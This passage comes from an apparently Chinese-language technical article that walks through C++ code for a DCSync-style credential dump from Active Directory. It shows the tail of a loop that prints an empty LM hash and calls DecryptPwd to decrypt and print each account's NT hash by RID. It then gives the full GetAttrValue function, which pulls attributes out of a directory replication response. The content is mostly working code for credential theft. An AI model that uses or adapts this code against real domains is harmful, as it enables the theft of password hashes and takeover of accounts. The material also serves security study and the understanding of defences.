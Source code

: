 ```c++
            else
            {
                wprintf(L"aad3b435b51404eeaad3b435b51404ee");
                wprintf(L":");
            }
            // Decrypt and print NT Hash.
            DecryptPwd(encodedUnicodePwd, encodedUnicodePwdSize, rid, 0);
            wprintf(L"\n");
        }
    }
}
```

其中还涉及两个自定义函数 GetAttrValue 和 DecryptPwd。GetAttrValue 函数通过传入响应里的前缀表（PrefixTableSrc）、解密后的属性值（AttrBlock）和指定属性的 OID，通过 MakeAttid 和 AddPrefixToTable 的系列调用获取指定属性的值，其定义如下。

```c++
BOOL GetAttrValue(SCHEMA_PREFIX_TABLE* pPrefixTable, ATTRBLOCK* pAttrBlock, LPCSTR szOid, PVOID* pData, DWORD* pSize)
{
	BOOL status = FALSE;
	PVOID pValue = NULL;
	ATTRVALBLOCK* attrvalblock = NULL;
	ATTR* attribute;
	ATTRTYP attrtyp;

	if (MakeAttid(pPrefixTable, szOid, &attrtyp, FALSE))
	{
		for (DWORD i = 0; i < pAttrBlock->attrCount; i++)
		{
			attribute = &pAttrBlock->pAttr[i];
			if (attribute->attrTyp == attrtyp)
			{
				attrvalblock = &attribute->AttrVal;
				if (attrvalblock)
				{
					if (attrvalblock->valCount == 1)
					{
						pValue = attrvalblock->pAVal[0].pVal;
						if(pData)
							*pData = pValue;
						if (pSize)
							*pSize = attrvalblock->pAVal[0].valLen;
						status = TRUE;
					}
					break;
				}
			}
		}
	}
	return status;
}
```
